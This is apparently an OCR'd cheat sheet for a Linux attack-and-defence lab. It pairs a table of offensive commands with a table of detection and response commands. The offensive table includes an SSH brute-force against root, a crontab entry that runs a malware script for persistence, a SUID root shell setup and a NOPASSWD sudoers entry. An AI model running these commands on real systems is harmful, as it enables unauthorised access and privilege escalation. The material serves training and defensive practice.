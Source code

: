 ## **Linux - Offensive / Attack**

| Command                                                     | Purpose                                                                        |
| ----------------------------------------------------------- | ------------------------------------------------------------------------------ |
| hydra -l root -P rockyou.txt ssh://\<linux\_ip>             | SSH brute-force attack from Kali.                                              |
| echo "\* \* \* \* \* /tmp/malware.sh" >> /etc/crontab       | Add a malicious system cron entry for frequent/persistent execution.           |
| gcc /tmp/suid.c -o /tmp/suid-shell                          | Compile an example SUID binary (used in privilege escalation demonstrations).  |
| chown root:root /tmp/suid-shell                             | Set owner to root for an SUID binary.                                          |
| chmod 4755 /tmp/suid-shell                                  | Set SUID bit to allow binary to run with owner (root) privileges.              |
| (visudo edit) testuser ALL=(ALL) NOPASSWD: /tmp/suid-shell  |  Add a NOPASSWD sudoers entry (example used to demonstrate sudo abuse).        |

## **Linux - Detection & Response**

| Command                                           | Purpose                                                                       |
| ------------------------------------------------- | ----------------------------------------------------------------------------- |
| sudo tail -n 200 /var/log/auth.log                | View recent authentication events and SSH attempts.                           |
| journalctl -u ssh                                 | View SSH service logs on systemd systems.                                     |
| crontab -l                                        | List the current user's crontab entries.                                      |
| cat /etc/crontab                                  | Inspect system crontab for unauthorized entries.                              |
| grep 'COMMAND=' /var/log/auth.log                 | Search authentication logs for executed commands (sudo/ssh command logging).  |
| ausearch -m USER\_CMD                             | Query auditd for recorded user command execution events.                      |
| sudo ufw deny from \<attacker\_ip>                | Block an attacker IP address using UFW firewall.                              |
| rm /tmp/suid-shell or chmod 0755 /tmp/suid-shell  | Remove or neutralize unauthorized SUID binaries as remediation.               |
| (visudo edit)                                     | Remove malicious sudoers entries via safe editor (visudo).                    |
